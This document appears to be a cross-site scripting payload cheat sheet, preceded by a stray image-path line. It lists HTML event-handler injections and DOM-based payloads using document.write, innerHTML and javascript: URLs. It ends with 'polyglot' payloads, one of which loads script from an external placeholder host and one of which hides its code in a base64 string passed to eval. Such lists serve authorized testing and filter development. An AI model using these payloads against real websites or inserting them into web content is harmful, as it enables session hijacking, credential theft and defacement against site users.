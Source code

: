 # Event Handlers

```html
"><div onmouseover="alert('XSS')">Hover over me!</div>
"><input type="text" value="XSS" onfocus="alert('XSS')">
"><a href="#" onclick="alert('XSS')">Click me</a>
```

# DOM-based XSS Payloads

# Basic Payloads

```javascript
document.write('<script>alert("XSS")</script>');
document.body.innerHTML = '<img src=x onerror=alert("XSS")>';
location.hash = '"><script>alert("XSS")</script>';
```

# Advanced Payloads

```javascript
location="javascript:alert('XSS')";
window.location = 'javascript:alert("XSS")';
document.location = 'javascript:alert("XSS")';
```

# Event Handlers

```javascript
var x = document.createElement("div");
x.onmouseover = function() { alert('XSS'); };
document.body.appendChild(x);

document.getElementById('test').setAttribute('onmouseover', 'alert("XSS")');
element.attachEvent('onclick', function(){ alert('XSS'); });
```

# Advanced XSS Payloads

# Polyglot Payloads

```html
<script src=//your.site/0></script>
"><script src=//your.site/0 onerror=eval(atob('ZG9jdW1lbnQud3JpdGUoJzxzY3JpcHQ+YWxlcnQoJ1hTUycpOzwvc2NyaXB0Pic='))></script>
```
